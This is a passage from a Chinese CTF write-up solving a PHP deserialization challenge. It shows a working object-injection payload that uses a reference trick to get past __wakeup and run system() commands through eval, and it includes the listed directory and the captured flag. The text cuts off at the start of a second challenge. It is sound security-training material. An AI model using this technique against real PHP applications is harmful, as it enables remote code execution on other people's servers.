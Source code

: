 ```
$bbb=unserialize($_GET['a']);
你输入的不正确！！！搞什么！！
```
可以看到destruct方法里有eval，会执行a的值，但是wakeup方法会清除a的值，所以要绕过wakeup方法，但是开头有个过滤，所以我们要用bc来绕过正则
```
 <?php
class test{
    public $a;
    public $b;
    public $c;
}
$a=new test;
$a->a="system('ls /');";
$a->b="/test\":3";
$a->c="/test\":3";
echo serialize($a);

 O:4:"test":3:{s:1:"a";s:15:"system('ls /');";s:1:"b";s:8:"/test":3";s:1:"c";s:8:"/test":3";}
```
绕过了正则但是没有得到想要的结果，看网上wp是按照题目顺序，wakeup把a值清除了，然后给c赋值指令，然后destruct方法会将c值赋给b，然后把a指针b的值来执行eval
```
 <?php
class test{
    public $a;
    public $b;
    public $c;
}
$x=new test();
$x->b=&$x->a;
$x->c="system('ls /');";
echo urlencode(serialize($x));

O%3A4%3A%22test%22%3A3%3A%7Bs%3A1%3A%22a%22%3BN%3Bs%3A1%3A%22b%22%3BR%3A2%3Bs%3A1%3A%22c%22%3Bs%3A15%3A%22system%28%27ls+%2F%27%29%3B%22%3B%7D
bin boot dev etc fffffffffflagafag home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var 

 <?php
class test{
    public $a;
    public $b;
    public $c;
}
$x=new test();
$x->b=&$x->a;
$x->c="system('cat /fffffffffflagafag');";
echo urlencode(serialize($x));

 O%3A4%3A%22test%22%3A3%3A%7Bs%3A1%3A%22a%22%3BN%3Bs%3A1%3A%22b%22%3BR%3A2%3Bs%3A1%3A%22c%22%3Bs%3A33%3A%22system%28%27cat+%2Ffffffffffflagafag%27%29%3B%22%3B%7D
NSSCTF{This_iS_SO_SO_SO_EASY} 
```
5.[MoeCTF 2021]unserialize
```
 <?php

class entrance
{
    public $start;

    function __construct($start)
    {
        $this->start = $start;
    }
```